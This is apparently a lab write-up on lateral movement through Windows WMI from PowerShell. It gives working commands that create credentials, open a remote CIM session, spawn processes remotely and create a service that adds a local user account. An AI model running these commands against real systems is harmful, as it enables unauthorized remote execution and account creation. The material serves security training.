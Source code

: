 WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. 

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.<br>

**Connecting to WMI From Powershell**<br>

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password.
This object will be stored in the $credential variable and utilised throughout the techniques on this task:
```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
There are two protocols when establishing a WMI session **DCOM** and **Wsman**.<br>
To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use directry.<br>
```
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
**Remote Process Creation Using WMI**<br>
We can remotely spawn a process from Powershell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value lol";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```
**Creating Services Remotely with WMI**<br>
We can create services with WMI through Powershell. To create a service called LOLService, we can use the following command:
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "LOLService";
DisplayName = "LOLService";
PathName = "net user lol Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```
And then, we can get a handle on the service and start it with the following commands:

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'LOLservice'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```
Finally, we can stop and delete the service with the following commands:
```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```




















































